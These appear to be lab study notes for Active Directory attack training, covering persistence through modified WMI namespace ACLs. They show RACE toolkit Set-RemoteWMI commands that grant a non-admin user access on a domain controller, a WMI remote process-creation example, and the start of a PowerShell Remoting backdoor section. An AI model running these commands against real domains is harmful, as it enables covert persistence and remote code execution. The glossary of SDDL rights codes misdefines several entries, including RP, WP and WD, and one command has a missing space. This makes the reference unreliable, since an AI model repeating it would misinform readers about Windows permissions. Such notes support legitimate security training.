ACE for built-in administrators for WMI namespaces:

~~~
A;CI;CCDCLCSWRPWPRCWD;;;SID
~~~

- **CC**: **Create Child** — Allows creating child objects (e.g., subfolders or entries in a directory).
- **DC**: **Delete Child** — Allows deleting child objects.
- **LC**: **List Contents** — Allows listing contents of a folder.
- **SW**: **Self Write** — Allows the principal to write certain object attributes.
- **RP**: **Read Permissions** — Allows reading the object's security descriptor (DACL).
- **WP**: **Write Permissions** — Allows modifying the object's DACL.
- **RC**: **Read Control** — Grants read access to the object's security descriptor and properties.
- **WD**: **Write Data/Add File** — Allows writing data or adding files to a container


#### WMI

ACLs can be modified to allow non-admin users access to securable objects.

Using the RACE toolkit

**On local machine for student1**:

~~~
Set-RemoteWMI -SamAccountName student1 -Verbose
~~~

**On remote machine for student1 without explicit credentials**:

~~~
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
~~~


**On remote machine with explicit credentials. Only root\cimv2 and nested namespaces**:

~~~
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
~~~

**On remote machine remove permissions**:

~~~
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
~~~

example of code execution with WMI:

~~~
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList ‘calc.exe’ -ComputerName dcorp-dc
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
~~~

#### PowerShell Remoting

Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches

**On local machine for student1**:
